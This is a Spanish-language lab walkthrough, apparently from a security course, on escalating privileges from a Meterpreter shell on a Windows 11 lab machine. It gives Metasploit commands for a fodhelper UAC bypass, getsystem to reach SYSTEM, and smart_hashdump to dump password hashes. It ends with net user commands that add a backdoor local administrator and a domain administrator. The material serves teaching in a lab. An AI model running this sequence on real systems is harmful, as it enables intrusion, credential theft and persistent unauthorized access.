







# Elevar privilegios en una sesión de meterpreter.
      
Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Kali Linux***.
3. Máquina ***Windows 11***


Son muchas las técnicas que permiten ganar una shell inversa en la víctima, pero a menudo el actor de la almenaza tiene limitaciones, porque las acciones que puede ejecutar están limitadas al contexto de la credencial del usuario víctima, y no suele ser el administrador.

Otras veces el usuario tiene ***permisos de administrador***, porque es un administrador de IT, o simplemente porque se verifica una mala práctica de hacer a los usuarios administradores. No obstante esto no es una garantía, porque como bien sabemos, aun siendo administradores, si realizamos una acción delicada, ahí está la UAC para pedir confirmación. Esta petición no puede salvarla el actor de la amenaza desde una shell de ***meterpreter***. Veámoslo.

En este laboratorio veremos cómo es posible ganar la identidad del sistema (***SYSTEM/AUTHORITY***).

## Ejercicio 1: Ganar una sesión de meterpreter.

Necesitamos una shell de meterpreter sobre la víctima, así que volvemos a realizar el ***Ejercicio 1 del lab-06-C***.
   
Debe quedar tal que así.



Comprobamos la identidad, así que en la consola de ***meterpreter*** escribimos.
```
getuid
```

Como se puede observar en la imagen, tenemos la identidad del usuario al que hemos hackeado.



El módulo auxiliar ***smart_hashdump*** de ***Metasploit*** permite extraer los hashes de las cuentas de usuarios que han iniciado sesión en la víctima. En el prompt escribimos.
```
run post/windows/gather/smart_hashdump
```

El resultado es que no tenemos permiso para hacer eso.



***Meterpreter*** tiene un comando que intenta elevar privilegios, vamos a probarlo.
```
getsystem -t 1
```

No es posible.




## Ejercicio 2: Escalar privilegios y robar los hashes.

La sesión actual de ***meterpreter*** es la ***1***. Necesitamos ganar acceso al prompt de ***Metasploit***, pero no queremos cerrar la sesión. Vamos a ponerla en segundo plano. En el prompt escribimos.
```
background
```

Ahora volvemos a tener acceso a ***Metasploit***. 

Vamos a intentar saltarnos la ***UAC***. Para ello haremos uso del exploit ***bypassuac_fodhelper***, y lo haremos sobre la sesión 1 de meterpreter que tenemos disponible, es decir, un exploit sobre otro exploit.
```
use exploit/windows/local/bypassuac_fodhelper
```

A este módulo hay que indicarle que opere a través de la sesión que tenemos abierta con ***mepterpreter***, que es la ***1***.
```
set SESSION 1
```

A ver qué sucede.
```
exploit
```

Se determina que el usuario hackeado pertenece al grupo ***Administradores***. Entonces es posible saltarse la UAC.



En la nueva sesión de ***meterpreter***, la ***2***, vamos a intentar el escalado.
```
getsystem -t 1
```

Ahora somos el "Sistema" y por lo tanto no estamos sujetos a la UAC, que como su nombre indica es un control que se aplica a los usuarios.


Comprobemos.
```
getuid
```

Ahora solo tenemos que intentar descargar los hashes. En el prompt escribimos.
```
run post/windows/gather/smart_hashdump
```

Como podemos ver, tenemos los hashes. Solo hay que tener suerte para reventarlos, pero ese es otro problema.




## Ejercicio 3: Crear un nuevo usuario local administrador.

Como parte del proceso de ganar acceso, y siendo el sistema (***SYSTEM/AUTHORITY***), podemos hacer lo que quereamos, por ejemplo crear un nuevo usuario.

Para ello, y a través de la sesión 2 de ***meterpreter*** invocamos una shell.
```
shell
```

En ella ejecutamos los siguientes comandos.
```
net user metasploit Pa55w.rd /add
```
```
net localgroup administrators metasploit /add
```

En la maquina ***Win 11*** puedes comprobar que efectivamente se creado el usuario.



Curiosidad. Si el usuario hackeado es administrador del dominio y te saltas la UAC como has aprendido, puedes crear usuarios nuevos en el dominio, que también pertenecerán al grupo de administradores del dominio, de la siguiente forma.

```
net user metasploit Pa55w.rd /add /domain

net group "Domain Admins" metasploit /add /domain
```

Aquí termina el lab. Reinicia la máquina ***Win 11*** y cierra todas las terminales de la máquina ***Kali***.

***FIN DEL LABORATORIO***